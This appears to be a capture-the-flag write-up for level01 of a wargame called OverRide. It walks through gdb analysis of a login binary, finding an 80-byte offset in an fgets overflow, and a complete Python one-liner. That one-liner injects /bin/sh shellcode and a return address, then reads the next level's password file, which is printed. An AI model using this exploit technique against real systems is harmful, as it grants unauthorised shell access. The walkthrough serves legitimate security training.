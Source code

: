 # Level 01

Once logged in, you will see a binary.

```
$ ssh 164.92.144.154 -p 4242 -l level01
	   ____                  ____  _     __
	  / __ \_   _____  _____/ __ \(_)___/ /__
	 / / / / | / / _ \/ ___/ /_/ / / __  / _ \
	/ /_/ /| |/ /  __/ /  / _, _/ / /_/ /  __/
	\____/ |___/\___/_/  /_/ |_/_/\__,_/\___/

                       Good luck & Have fun

   To start, ssh with level00/level00 on 164.92.144.154:4242
level01@164.92.144.154's password:

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level01/level01
level01@OverRide:~$ ls
level01
level01@OverRide:~$
```

Let's run the program.

```
level01@OverRide:~$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: admin
verifying username....

nope, incorrect username...

level01@OverRide:~$
```

We don't know how the program works, so let's take a look at the binary.

```
GNU gdb (Ubuntu/Linaro 7.4-2012.04-0ubuntu2.1) 7.4-2012.04
Copyright (C) 2012 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
For bug reporting instructions, please see:
<http://bugs.launchpad.net/gdb-linaro/>...
Reading symbols from /home/users/level01/level01...(no debugging symbols found)...done.

gdb-peda$ info functions
All defined functions:

Non-debugging symbols:
[...]
0x08048464  verify_user_name
0x080484a3  verify_user_pass
0x080484d0  main
[...]
gdb-peda$ info variables
[...]
0x0804a040  a_user_name
```

We see there are functions, and global variable declared. By decompiling the source, we at least have an idea what the username and password are: `"dat_wil"` and `"admin"`. Even with the "correct" username and password, we still haven't captured the flag.

```
level01@OverRide:~$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
admin
nope, incorrect password...

level01@OverRide:~$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
aaaaaaaaaaaaaaaa
nope, incorrect password...

level01@OverRide:~$
```

Checking the source again, it appears that the second call to `fgets` reads in more bytes (`0x64` = 100) than the buffer's declared size (`0x40` = 64).

Let's try a [buffer overflow pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/) to see if we can overwrite the `EIP` register for when it returns from `fgets`. This would allow us to insert a [shellcode](http://shell-storm.org/shellcode/files/shellcode-811.php) into memory through user input and then return to it by modifying the `EIP` register with input as well.

This is the PETA GDB output after inputting the username `"dat_wil"` and a 200-character buffer overflow pattern (see link above). Note the `EIP` register that has been overwritten by `0x37634136` (`"6Ac7"` as a string)

Inputs:
```
dat_wil
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
                                                                                ^ 81 characters in (therefore an offset of 80)
```

PETA GDB output:
```
[----------------------------------registers-----------------------------------]
EAX: 0x1
EBX: 0x33634132 ('2Ac3')
ECX: 0xffffffff
EDX: 0xf7fd08b8 --> 0x0
ESI: 0x0
EDI: 0x41346341 ('Ac4A')
EBP: 0x63413563 ('c5Ac')
ESP: 0xffffd720 ("Ac8Ac9Ad0Ad1Ad2")
EIP: 0x37634136 ('6Ac7')
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x37634136
[------------------------------------stack-------------------------------------]
0000| 0xffffd720 ("Ac8Ac9Ad0Ad1Ad2")
0004| 0xffffd724 ("c9Ad0Ad1Ad2")
0008| 0xffffd728 ("0Ad1Ad2")
0012| 0xffffd72c --> 0x326441 ('Ad2')
0016| 0xffffd730 --> 0x0
0020| 0xffffd734 --> 0xffffd71c ("6Ac7Ac8Ac9Ad0Ad1Ad2")
0024| 0xffffd738 --> 0xffffd7bc --> 0xffffd8f5 ("TERM=xterm-256color")
0028| 0xffffd73c --> 0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x37634136 in ?? ()
gdb-peda$ stack
0000| 0xffffd720 ("Ac8Ac9Ad0Ad1Ad2")
0004| 0xffffd724 ("c9Ad0Ad1Ad2")
0008| 0xffffd728 ("0Ad1Ad2")
0012| 0xffffd72c --> 0x326441 ('Ad2')
0016| 0xffffd730 --> 0x0
0020| 0xffffd734 --> 0xffffd71c ("6Ac7Ac8Ac9Ad0Ad1Ad2")
0024| 0xffffd738 --> 0xffffd7bc --> 0xffffd8f5 ("TERM=xterm-256color")
0028| 0xffffd73c --> 0x0

```

The last thing we need to create the exploit input is the address where our shellcode will start. We find this by looking at where `fgets` stores the input during its second call (`0xffffd6ec`). (Note: in testing, we've found that this address can change if you run the command on different machines. If this address doesn't work, you can recalculate it with the following `ltrace` function)

```
level01@OverRide:~$ ltrace ./level01 2> /tmp/ltrace.txt   # NOTE: sending ltrace output to a temp file
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
nope, incorrect password...

level01@OverRide:~$ cat /tmp/ltrace.txt
__libc_start_main(0x80484d0, 1, -10284, 0x80485c0, 0x8048630 <unfinished ...>
puts("********* ADMIN LOGIN PROMPT ***"...)                     = 39
printf("Enter Username: ")                                      = 16
fgets("dat_wil\n", 256, 0xf7fcfac0)                             = 0x0804a040
puts("verifying username....\n")                                = 24
puts("Enter Password: ")                                        = 17
fgets("Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab"..., 100, 0xf7fcfac0)   = 0xffffd6ec
puts("nope, incorrect password...\n")                           = 29
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```

Here's the steps we used to get to our final exploit.

First step:

```
dat_wil    # the username that we found by disassembling verify_user_name()
[  shellcode  ] + [  padding up to 80 chars  ] + [  address  ]
```

Next step:

```
dat_wil
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "B" * [  offset (80) - length of first (28) - 52  ] + [  `0xffffd6ec` in the correct endian-ness  ]
```

And now in Python:
```
python -c 'import struct; print "dat_wil\n" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "B"*52 + struct.pack("I", 0xffffd6ec)'
```

And now as a command:

```
(python -c 'import struct; print "dat_wil\n" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "B"*52 + struct.pack("I", 0xffffd6ec)' ; cat -) | ./level01
```

And now in action:
```
level01@OverRide:~$ (python -c 'import struct; print "dat_wil\n" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "B"*52 + struct.pack("I", 0xffffd6ec)' ; cat -) | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```
